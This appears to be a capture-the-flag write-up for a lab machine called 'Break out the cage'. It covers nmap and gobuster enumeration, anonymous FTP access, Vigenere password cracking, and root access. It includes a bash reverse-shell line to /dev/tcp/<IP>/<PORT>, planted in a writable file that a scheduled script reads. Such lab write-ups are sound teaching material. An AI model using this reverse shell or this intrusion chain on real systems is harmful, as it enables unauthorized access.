









# Break out the cage

### Description

- Difficulty: easy
- O.S: linux

### Connectivity

I pinged the machine to check connectivity, based on the ttl I know is a linux machine



### Port enumeration

For check which ports are open and what ports are running in the machine I did a nmap scan.

```bash
nmap <IP> --open -sS -p- --min-rate 5000 -Pn -n -vvv -oG allports
```



```bash
nmap <IP> -p21,22,80 -sCV -oN targeted
```



Scan results:

- 21 <- ftp - Anonymous ftp allowed, very interesting vector.
- 22 <- ssh - I don't have credentials, nothing to do now.
- 80 <- http - Web page

### FTP enumeration

The anonymous ftp is allowed so I entered and downloaded the file inside.

```bash
ftp <IP>
get <FILE>
```

The file is a encrypted in base64 and vigenere, I don't have any key.

### Web enumeration

The main page looks like this:


I'm going to use gobuster to fuzz sub directories.

```bash
gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200
```

The results:



I don't found anything important on the web service, I realize there are web pages that can break vigenere encryption without key, to do that I used http://www.guballa.de/vigenere-solver



Now I have the password for the user weston.

### SSH

I logged with the credentials via SSH.

```bash
ssh weston@<IP>
```

### Lateral movement

I realize that a message spawns in the command line every minute so I searched the file that is executed, is a python script in /opt/.dads_scripts.



I see that opens the .quotes file and I have write privileges to this file so I deleted the file, created a new one and put a reverse shell inside

```bash
#!/bin/bash
reverse; bash -c '/bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'
```

Now I start a listener and got the reverse shell



### Privilege escalation

Looking thru the email backups I Found another vigenere password, I cracked with the page: https://www.dcode.fr/cifrado-vigenere.






Now I have root access.

### Lessons learned

- Vigenere cipher isn't secure.
- Anonymous FTP is a bad practice and can leak sensitive data.
- Scripts with bad permissions are critical.